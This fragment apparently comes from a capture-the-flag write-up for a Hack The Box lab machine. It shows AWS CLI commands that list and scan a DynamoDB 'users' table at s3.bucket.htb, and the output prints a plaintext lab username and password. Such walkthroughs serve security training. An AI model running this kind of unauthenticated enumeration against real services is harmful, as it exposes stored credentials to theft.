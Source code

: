 	列表
	$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables        

	{
	    "TableNames": [
	        "users"
	    ]
	}
	枚举表格内容
	$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[]'

	{
	  "password": {
	    "S": "Management@#1@#"
	  },
	  "username": {
	    "S": "Mgmt"
	  }
	}